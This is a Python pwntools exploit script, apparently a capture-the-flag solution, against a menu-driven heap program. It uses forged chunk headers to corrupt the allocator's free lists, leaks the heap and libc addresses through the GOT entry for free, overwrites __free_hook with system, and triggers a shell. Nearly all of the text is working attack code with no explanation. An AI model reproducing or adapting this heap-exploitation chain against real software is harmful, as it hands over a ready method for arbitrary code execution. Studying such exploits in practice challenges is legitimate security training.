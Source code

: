 ```python
add([(0,  0x500, buf.ljust(0x500, b'\0'))])
l = add([(1,  0x20, b'T'*0x20)])

delete(l)
buf = b'0'*(0x70)+p64(0)+p64(0x31)+p64(0)+p64(0)
delete(0)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])

edit(l, l, 0x38, b'_'*0x38)

if args.GDB:
    gdb.attach(p, gdbscript=gs)
    pause()

lmao = add([(1,  0x20, b'T'*0x20)])
hehe = add([(1,  0x20, b'T'*0x20)])
delete(lmao)
delete(1)
show(hehe)
p.recvuntil(b'T'*8)
heap = u32(p.recv(4))-0x10

log.success(hex(heap))

add([(1,  0x20, b'1'*0x20)])

buf = b'0'*(0x20)+p64(0)+p64(0x31) + p64(heap+0x320)
delete(0)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])

edit(2, 2, 0x20, b'_'*0x20)
edit(3, 3, 0x20, p64(6)+p64(e.got.free)+p64(0)*2)

show(6)
p.recv(8)
libc.address = u64(p.recv(6)+b'\0\0') - libc.sym.free
log.success(hex(libc.address))

delete(1)
delete(hehe)

buf = b'0'*(0x20)+p64(0)+p64(0x31) + p64(libc.sym.__free_hook)
delete(0)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])

add([(1,  0x20, b'sh\0'.ljust(0x20))])
add([(1,  0x20, p64(libc.sym.system)+p64(0)*3)])

delete(1)

p.interactive()

```
